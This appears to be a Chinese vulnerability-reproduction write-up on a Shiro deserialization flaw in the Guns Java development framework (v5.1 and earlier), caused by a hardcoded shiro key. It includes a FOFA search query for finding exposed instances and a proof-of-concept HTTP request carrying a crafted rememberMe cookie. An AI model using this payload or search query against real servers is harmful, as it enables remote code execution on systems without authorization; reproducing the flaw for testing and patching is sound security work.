

# Guns快速开发平台 Shiro反序列化漏洞复现

### 0x01 产品简介

  Guns是一个现代化的 Java 应用开发框架，基于主流技术Spring Boot 2 + [Vue3](https://so.csdn.net/so/search?q=Vue3&spm=1001.2101.3001.7020)，Guns的核心理念是提高开发人员开发效率，降低企业信息化系统的开发成本。

### 0x02 漏洞概述

 Guns v5.1 及之前的版本存在 shiro [反序列化漏洞](https://so.csdn.net/so/search?q=%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E&spm=1001.2101.3001.7020)，该漏洞源于软件存在硬编码的 shiro-key，攻击者可利用该 key 生成恶意的序列化数据，在服务器上执行任意代码，执行系统命令、或打入内存马等，获取服务器权限。

### 0x03 影响范围

Guns <= v5.1

### 0x04 复现环境

FOFA：app="Guns"



### 0x05 漏洞复现 

PoC

```cobol
GET / HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Cookie: rememberMe=ZTE4ZUI2ZmNlQ0I1N2VlMIo/Wyvlhprf3YyQ7Uv0S1ylHBAbcj1lccluzsWCtG5HF01/y+s6ZI6S12zsdz9N+2nqYahiFMk8s+/RwNucYR8lqS9REzzXlF3orc/ZFjlRR8h0Lgfn4lpRxZnSGYCVh0neiT/ZQCT8tffIhFf0FthINEIn00tPmGJpjCTG+dc5Jmc5
```
